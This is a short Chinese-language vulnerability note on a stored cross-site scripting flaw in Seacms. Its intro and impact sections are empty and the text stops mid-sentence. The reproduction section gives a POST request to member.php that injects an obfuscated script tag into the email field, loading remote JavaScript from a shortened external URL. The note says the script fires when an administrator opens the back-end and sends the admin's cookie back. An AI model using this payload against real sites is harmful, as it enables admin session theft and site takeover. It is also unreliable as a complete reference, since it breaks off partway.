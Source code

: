 Seacms 储存型xss
================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    POST /member.php?action=chgpwdsubmit

    oldpwd=test&newpwd=test&newpwd2=test&email=test%40test.com<scbase64ript src=https://url.cn/585l00F></scrbase64ipt>&nickname=&gaimi=%E7%A1%AE%E8%AE%A4%E4%BF%AE%E6%94%B9

### src的值为[http://127.0.0.1/test.js的短链接](http://127.0.0.1/test.js的短链接)

当后台浏览到后台界面时，会触发漏洞，反弹回来Cookie，但需要注意两点，第一，只有系统管理员才能看到用户界面，普通管理
